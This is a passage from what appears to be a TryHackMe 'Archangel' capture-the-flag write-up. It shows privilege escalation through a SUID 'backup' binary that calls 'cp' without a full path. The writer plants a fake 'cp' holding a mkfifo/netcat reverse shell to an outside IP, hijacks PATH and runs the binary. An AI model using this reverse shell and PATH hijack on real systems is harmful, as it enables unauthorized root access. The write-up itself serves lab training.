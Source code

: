 User2.txt:

```bash
archangel@ubuntu:~$ ls
myfiles  secret  user.txt
archangel@ubuntu:~$ cd secret
cd secret
archangel@ubuntu:~/secret$ ls
ls
backup  user2.txt
archangel@ubuntu:~/secret$ cat user2.txt
cat user2.txt
thm{REDACTED}
```

Checking files.

```bash
archangel@ubuntu:~/secret$ ls -la
ls -la
total 32
drwxrwx--- 2 archangel archangel  4096 Nov 19 20:41 .
drwxr-xr-x 6 archangel archangel  4096 Nov 20 15:22 ..
-rwsr-xr-x 1 root      root      16904 Nov 18 16:40 backup
-rw-r--r-- 1 root      root         49 Nov 19 20:41 user2.txt
```

We got SUID at `backup` file. Let's disassemble it with IDA.

<a href="/assets/images/tryhackme/archangel/11.png"><img src="/assets/images/tryhackme/archangel/11.png"></a>

Since the `cp` command didn't provide the full path for the binary, we can manipulate / spoof the `cp` with our arbitrary `cp` command.

```bash
archangel@ubuntu:/tmp$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.25.205 1111 >/tmp/f" > cp
nc 10.11.25.205 1111 >/tmp/f" > cp/tmp/f|/bin/sh -i 2>&1|n"
archangel@ubuntu:/tmp$ chmod +x cp
chmod +x cp
archangel@ubuntu:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
```

Set up our `netcat` listener and run the `backup` file!

```bash
archangel@ubuntu:/tmp$ cd ~/secret
cd ~/secret
archangel@ubuntu:~/secret$ ./backup
./backup
```
